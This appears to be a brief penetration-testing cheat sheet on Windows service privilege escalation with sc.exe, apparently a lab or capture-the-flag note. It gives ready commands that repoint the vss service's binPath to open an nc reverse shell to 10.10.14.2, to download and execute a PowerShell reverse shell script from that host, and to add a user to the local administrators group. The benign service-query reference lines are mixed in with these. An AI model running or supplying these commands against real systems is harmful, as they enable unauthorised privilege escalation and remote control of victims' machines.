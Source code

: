 sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2 1234"  
sc.exe config vss binPath="C:\Windows\system32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.2/reverse.ps1')"  
sc.exe stop vss  
sc.exe start vss

#### Service Commands
Query the configuration of a service:
`> sc.exe qc <name>`
Query the current status of a service:
`> sc.exe query <name>`
Modify a configuration option of a service:
`> sc.exe config <name> <option>= <value>`
`> sc.exe config binpath= "net localgroup administrators user /add"` #add #group
`> sc.exe config binpath= "C:\Temp\nc.exe ATACKER PORT -e cmd.exe"` #shell #remote
Start/Stop a service:
`> net start/stop <name>`